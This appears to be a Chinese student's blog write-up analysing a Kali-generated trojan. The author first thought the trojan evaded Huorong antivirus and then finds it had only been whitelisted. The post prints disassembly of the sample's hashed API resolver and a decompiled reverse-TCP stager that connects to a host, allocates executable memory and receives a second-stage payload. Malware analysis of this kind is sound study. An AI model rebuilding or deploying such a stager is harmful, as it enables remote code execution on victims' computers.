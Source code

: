 # 样本来源

2023年8月份吧....22级招新那段时间

陈伟杰学弟利用Kali生成了一个木马

发现是可以绕过火绒的,,,,无论是火绒主动扫描还是动态的探测

发现该木马仍然不会被检测出来

甚至过了一个月,,,该样本仍然不会被火绒查杀



# 样本分析



```c++
void __stdcall Get_API(DWORD a1, ...);
```

该函数的参数个数不定,,,传递进去的都会被APi给std_call平衡堆栈的

然后a1就决定了要调用哪一个API





该函数的开头

```c++
.data:0041A14A pusha
```

然后该函数push 了2个参数的

```assembly
.data:0041A1DA push    3233h
.data:0041A1DF push    5F327377h       ; 
.data:0041A1E4 push    esp             ; push进去的是一个字符串内容
.data:0041A1E5 push    726774Ch        ; 这是API_hash
.data:0041A1EA mov     eax, ebp
.data:0041A1EC call    eax
```



然后看一下该函数的末尾状态

```assembly
.data:0041A1AF pop     eax
.data:0041A1B0 mov     ebx, [eax+24h]
.data:0041A1B3 add     ebx, edx
.data:0041A1B5 mov     cx, [ebx+ecx*2]
.data:0041A1B9 mov     ebx, [eax+1Ch]
.data:0041A1BC add     ebx, edx
.data:0041A1BE mov     eax, [ebx+ecx*4]
.data:0041A1C1 add     eax, edx ;eax是API_RVA,edx是dll的imagebase
.data:0041A1C3 mov     [esp+36], eax;把API放在esp+36
.data:0041A1C7 pop     ebx ;平衡堆栈
.data:0041A1C8 pop     ebx ;平衡堆栈
.data:0041A1C9 popa		;拿出以前的环境,eax,ebx,ecx,,什么的会恢复的
.data:0041A1CA pop     ecx ;取出返回地址
.data:0041A1CB pop     edx ;平衡本函数的栈
.data:0041A1CC push    ecx ;压入返回地址
.data:0041A1CD jmp     eax ;去往API函数
```





# 行为分析



SMC阶段

函数调用阶段



调用LoadLibiray

```c++
76A50000: loaded C:\WINDOWS\SysWOW64\ws2_32.DLL
76EC0000: loaded C:\WINDOWS\SysWOW64\RPCRT4.dll
```





我想,,主要干活的应该是下面这几个东西



```c++
// 当前位于区块4,但是获取了区块3的起始地址
// positive sp value has been detected, the output may be wrong!
int sub_41A1D9()
{
  int (__cdecl *run_API)(void *, int, int *); // ebp
  void *v1; // esp
  int v2; // eax
  int *v3; // esi
  int v4; // edi
  int v5; // esi
  int v6; // ebx
  int result; // eax
  int *v8; // [esp-8h] [ebp-234h]
  int v9; // [esp-4h] [ebp-230h]
  int v10; // [esp+1Ch] [ebp-210h]
  _BYTE v11[8]; // [esp+74h] [ebp-1B8h] BYREF
  int v12; // [esp+7Ch] [ebp-1B0h]
  int v13; // [esp+8Ch] [ebp-1A0h] BYREF
  _DWORD v14[2]; // [esp+224h] [ebp-8h] BYREF

  run_API = v14[1];
  HIBYTE(v14[1]) = 0;
  strcpy(v14, "ws2_32");
  (run_API)(0x726774C, v14);                    // load一下dll
  v1 = alloca(400);                             // 这是尼玛的通过栈开辟的空间,,而不是Alloc
  v2 = run_API(&unk_6B8029, 400, &v13);         // ws2_32_WSAStartup
  v12 = 10;
  while ( 1 )
  {
    v3 = v11;
    v4 = (run_API)(0xE0DF0FEA, v2 + 2, v2 + 1, v2, v2, v2, v2, 0x2A030002, 686589995);// ws2_32_WSASocketA
    while ( (run_API)(0x6174A599, v4, v11, 16) )// ws2_32_connect
    {
      if ( !--v12 )
        goto LABEL_5;
    }
LABEL_6:
    if ( (run_API)(0x5FC8D902, v4, v3, 4, 0) > 0 )
      break;
LABEL_10:
    v2 = (run_API)(0x614D6E75, v4);
    v3 = v8;
    if ( !--v9 )
    {
LABEL_5:
      (loc_41A29C)();
      goto LABEL_6;
    }
  }
  v5 = *v3;
  v6 = (run_API)(0xE553A458, 0, v5, 0x1000, 0x40);
  v10 = v6;
  do
  {
    result = (run_API)(0x5FC8D902, v4, v6, v5, 0, v10);
    if ( result < 0 )
    {
      v9 = 0x300F2F0B;
      (run_API)();
      goto LABEL_10;
    }
    v6 += result;
    v5 -= result;
  }
  while ( v5 );
  return result;
}
```





# 分析总结

好了不分析了....

原本以为它真的可以绕过火绒的免杀

结果.....是因为我把木马放在了白名单的文件夹

所以,,,看一个SMC,,,,然后看一个API_RUN()的函数,,收获也还是有的

但是文件免杀,,,动态免杀,,,这些东西,,,还是很难绕过的



![image-20230926213601307](./img/image-20230926213601307.png)
